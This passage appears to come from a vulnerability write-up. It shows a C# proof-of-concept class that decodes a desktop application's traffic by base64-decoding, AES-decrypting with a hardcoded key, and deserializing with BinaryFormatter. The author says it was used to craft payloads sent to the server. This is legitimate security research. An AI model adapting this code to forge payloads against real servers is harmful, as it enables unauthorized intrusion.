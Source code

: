 I created a proof-of-concept by leveraging the desktop application's source code to craft my own payload and send it to the server.

```csharp
using System;
using System.Collections.Generic;
using System.IO;
using System.Text;
using System.Net;
using System.Net.Cache;
using System.Reflection;
using System.Diagnostics;
using System.Security.Cryptography;
using System.Runtime.Serialization.Formatters.Binary;
using Redacted;
using Redacted;
using ICSharpCode.SharpZipLib.Zip.Compression;
using ICSharpCode.SharpZipLib.Zip.Compression.Streams;

public static class DesktopTrafficDecoder
{

	private static EncryptionData _encryptedData = null;
	private static int objectSize = 100000000;

	public static void SetEncryptionData(string data)
	{
		BinaryFormatter binaryFormatter = new BinaryFormatter();
		int num;
		byte[] buffer;
		using (MemoryStream input = new MemoryStream(Convert.FromBase64String(data)))
		{
			using (BinaryReader binaryReader = new BinaryReader(input))
			{
				num = binaryReader.ReadInt32();
				int num2 = binaryReader.ReadInt32();
				buffer = new byte[num2];
				binaryReader.Read(buffer, 0, num2);
			}
		}
		byte[] buffer2 = new byte[num];
		using (AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider())
		{
			using (MemoryStream stream = new MemoryStream(buffer))
			{
				byte[] LogonKey = new byte[32] { 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10 };
				byte[] LogonIV = new byte[16] { 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10 };
				using (CryptoStream input2 = new CryptoStream(stream, aesCryptoServiceProvider.CreateDecryptor(LogonKey, LogonIV), CryptoStreamMode.Read))
				{
					using (BinaryReader binaryReader2 = new BinaryReader(input2, Encoding.UTF8))
					{
						binaryReader2.Read(buffer2, 0, num);
					}
				}
			}
		}
		using (MemoryStream serializationStream = new MemoryStream(buffer2))
		{
			_encryptedData = (EncryptionData)binaryFormatter.Deserialize(serializationStream);
		}
	}
```